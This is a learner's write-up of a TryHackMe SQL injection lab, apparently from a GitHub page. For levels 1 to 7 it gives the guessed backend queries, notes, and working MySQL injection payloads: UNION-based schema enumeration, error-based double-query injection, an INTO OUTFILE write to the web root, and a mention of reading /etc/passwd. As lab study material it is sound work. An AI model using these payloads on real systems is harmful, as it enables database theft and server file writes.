 # SQLi Lab (tryhackme)
## Database Server -> MySQL

# LEVEL 1 (GET - Error based - Single quotes - String)
Potential backend query
```
SELECT * FROM <users> WHERE id = '$id' LIMIT 0,1
```

Notes
```
"String injection" first is checked by using (') or (") closing the string for where syntax

If error message pop out, it will give us some more information for us to use, like a guide. Something like SQL syntax error, or SELECT statements have different number of columns
```

Injection
```
' UNION SELECT 1, 2, 3-- -

' UNION SELECT 1, schema_name, 3 FROM information_schema.schemata LIMIT <offset>,1-- -
```
---

# Level 2 (GET - Error based - Integer based)
Potential backend query
```
SELECT * FROM <users> WHERE id=$id LIMIT 0,1
```

Notes
```
"Integer injection" means there is no string quotes for the input

We can just append what we want behind it

Why use 0 as the id value? because we don't want the first SELECT syntax give out an output so that our SELECT syntax give out output instead
```

Injection
```
0 UNION SELECT 1,2,3

0 UNION SELECT 1, schema_name,3 FROM information_schema.schemata LIMIT <offset>,1-- -
```
---

# LEVEL 3 (GET - Error based - Single quotes with a twist - String)
Potential backend query
```
SELECT * FROM <users> WHERE id=('$id') LIMIT 0,1
```

Notes
```
Checking id=1' like basic "string injection" give us SQL syntax error which stated

**You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'') LIMIT 0,1' at line 1**
```

Injection
```
') UNION SELECT 1, 2, 3-- -

') UNION SELECT 1, schema_name, 3 FROM information_schema.schemata LIMIT 1,1-- -
```
---

# LEVEL 4 (GET - Error based - Double Quotes - String)
Potential backend query
```
SELECT * FROM <users> WHERE id=("$id") LIMIT 0,1
```

Notes
```
As I said before, we could check SQLi by using (') or ("), now we just use the latter
```

Injection
```
") UNION SELECT 1, 2, 3 -- -

") UNION SELECT 1, schema_name, 3 FROM information_schema.schemata LIMIT 1,1-- -
```
---

# LEVEL 5 (GET - Double injection - Single quotes - String)
Potential backend query
```
$statement = "SELECT * FROM <users> WHERE id='$id' LIMIT 0,1";
$result = $connection->query($statement);
if($result->num_rows != 0){
	echo "You are in...........";
}
else{
	print_r($conn->error);
}
```

Notes
```
Useless output when it return true, else error... somehow we need to get what we want by the error

COUNT(*) -> count up all the column from GROUP BY tmp table

FLOOR() -> round down
RAND() -> get random number between 0,1

Subquery -> select inside select

This injection happen because of duplicate value of the tmp table from the GROUP BY syntax, because we randomize the value selected in the group by, it might get confused and give out duplicate value error
```

|COUNT(\*)|a|
|:---:|:---:|
|6|0|
|9|1|
|?(Error)|1(Duplicate)|


Injection
```
1' AND (SELECT 1 FROM (SELECT COUNT(*), CONCAT((SELECT schema_name FROM information_schema.schemata LIMIT <offset>,1),'+', FLOOR(RAND()*2))a FROM <TABLE> GROUP BY a)b)-- -
```

Reference : [Double Query Injection by Sudharshan Kumar](https://medium.com/cybersecurityservices/sql-injection-double-query-injection-sudharshan-kumar-8222baad1a9c)
---

# LEVEL 6 (GET - Double injection - Double quotes - String)
Potential backend query
```
$statement = 'SELECT * FROM <users> WHERE id="$id" LIMIT 0,1';
$result = $connection->query($statement);
if($result->num_rows != 0){
	echo "You are in...........";
}
else{
	print_r($conn->error);
}
```

Notes
```
Same principal as before, just change the quote (') to double quote (")
```

Injection
```
1" AND (SELECT 1 FROM (SELECT COUNT(*), CONCAT((SELECT schema_name FROM information_schema.schemata LIMIT <offset>,1),"+", FLOOR(RAND()*2))a FROM <TABLE> GROUP BY a)b)-- -
```
---

# LEVEL 7
Potential backend query
```
SELECT * FROM <users> WHERE id=(('$id')) LIMIT 0,1
```

Notes
```
INTO OUTFILE is a mysql syntax to save an output into a file, after saving it into a file we could possibly open it from the webserver just by 'looking for it'
```

Injection
```
1')) UNION SELECT 1,2,3 INTO OUTFILE ('/var/ww/html/sqli-labs/Less-7/test.txt')-- -

^
this should work :<
you can even LOAD_FILE('/etc/passwd'), but somehow in this room we can't ._.

```
